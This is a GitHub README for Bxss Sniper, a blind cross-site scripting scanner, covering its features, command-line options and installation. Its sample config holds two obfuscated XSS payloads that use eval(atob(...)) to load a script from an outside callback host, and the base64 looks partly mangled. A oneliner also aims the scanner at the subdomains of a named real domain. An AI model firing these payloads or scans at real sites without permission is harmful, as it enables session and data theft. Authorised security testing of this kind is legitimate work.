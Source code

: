 # Bxss Sniper

Bxss Sniper is a web application penetration testing tool designed for Blind Cross-Site Scripting (BXSS) detection. This ethical hacking tool empowers security professionals and developers to identify and analyze potential BXSS vulnerabilities in web applications.

### Features

- **Blind XSS Detection:** Bxss Sniper specializes in detecting and testing for Blind Cross-Site Scripting vulnerabilities in web applications.

- **Flexible Testing Options:** Test a single URL or multiple URLs using a file containing a list of targets.

- **Silent Mode:** Enable silent mode to print only the output without displaying the banner and version information.

- **Output Customization:** Specify an output file to save the results for further analysis.

- **Proxy Support:** Switching proxies allows you to send requests through your configured proxy, such as Burp Suite.

- **Timeout Configuration:** Customize the timeout duration for requests, useful for both regular testing and integration with tools like Burp Suite.

- **Concurrency Control:** Adjust the concurrency level for multiple processes, enhancing the efficiency of the testing process.

- **Support Oneliners:** Bxss Sniper supports oneliners to improve your reconnaissance

### Oneliners:

Bxx Sniper supports integration with subdominator which can be easy to detect for blid cross site scripting.

```bash
subdominator -d glia.com -o results.txt --config | bxsniper --silent --concurrency 20 -o bxss.txt
```
![Screenshot from 2023-12-02 17-14-34](https://github.com/sanjai-AK47/Bxss_Sniper/assets/119435129/cbb8797f-7cb9-4e2d-aa6b-ba7d1db18748)



### Command Line Usage
```bash
usage: bxsniper [-h] [-uf URLS_FILE] [-u URL] [-s] [-o OUTPUT] [-px PROXY] [-to TIME_OUT] [-c CONCURRENCY]

[DESCRIPTION]: Bxss Sniper: A web application penetration testing tool for Blind XSS detection

options:
  -h, --help            show this help message and exit
  -uf URLS_FILE, --urls-file URLS_FILE
                        [INFO]: A file that contains a list of URLs to test for blind cross-site scripting
  -u URL, --url URL     [INFO]: A single URL to test for blind cross-site scripting
  -s, --silent          [INFO]: Silently print only output and not print the banner and version
  -o OUTPUT, --output OUTPUT
                        [INFO]: Filename to write the output
  -px PROXY, --proxy PROXY
                        [INFO]: Switching proxy will send requests to your configured proxy (e.g., Burp Suite)
  -to TIME_OUT, --time-out TIME_OUT
                        [INFO]: Switching timeout will send requests till your timeout and also for Burp Suite
  -c CONCURRENCY, --concurrency CONCURRENCY
                        [INFO]: Concurrency level for multiple processes
```


### Installation:

#### Method 1:

```bash
pip install bxss-sniper

bxsniper --help
```
[INFO]: After Installing the Bxss Sniper tool through pip copy the configuration yaml file from the github if you don't have in your machine.

#### Method 2:

```bash
git clone https://github.com/PushkraJ99/Bxss_Sniper.git

cd Bxss_Sniper

pip install .

bxsniper --help
```

### Configuration:

To detect and do automation with Bxss Sniper users need to configure your `bxss-config.yaml` which you can store your Bxss payloads and Detects for Blind Cross Site Scripting
follow the instruction and syntax to config you `bxss-config.yaml`

```yaml
BlindXSS-Payloads:  #Max Payload 5-7

  - '"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3Jgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vamVycnkuYnhzm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>'
  - "'><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS57ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>"
```

[Note]: If your payload have different quotes users are suggessted to give payloads without any yaml syntax errors
        to check your yaml syntax you can check [here](https://yamlchecker.com/) by pasting your payload in that it will notify the errors for you

### Contributors:

- **[D.Sanjai Kumar](https://www.linkedin.com/in/d-sanjai-kumar-109a7227b/):**  Author and Developer of Bxss Sniper
- **[Jerry](https://www.linkedin.com/in/md-hasan-03596a1b5/):**  Source Provider of Bxss Sniper
- **[AslamX3R](https://www.linkedin.com/in/aslamx3r/):**  Source Provider of Bxss Sniper

### Information:

Bxss Sniper is made for web application pentesters and Ethical hackers for Ethical purpose only . The Developer and the Source providers are not responsible for 
any unethical actions.

### Support:

Bxss Sniper is an open-source project that thrives on community collaboration. Contribute by:

- **Code:** Submit pull requests for bug fixes, features, or documentation enhancements.

- **Issues:** Report bugs, vulnerabilities, or suggest improvements.

- **Spread the Word:** Share Bxss Sniper with your network.

### How to Support:

- **Star the Repo:** Show your support on GitHub.

- **Share:** Spread the word on social media and in your communities.

- **Financially:** Help cover hosting and maintenance costs with a financial contribution.

Your contributions and support are vital to Bxss Sniper's success. Thank you for being part of our community! 🌟

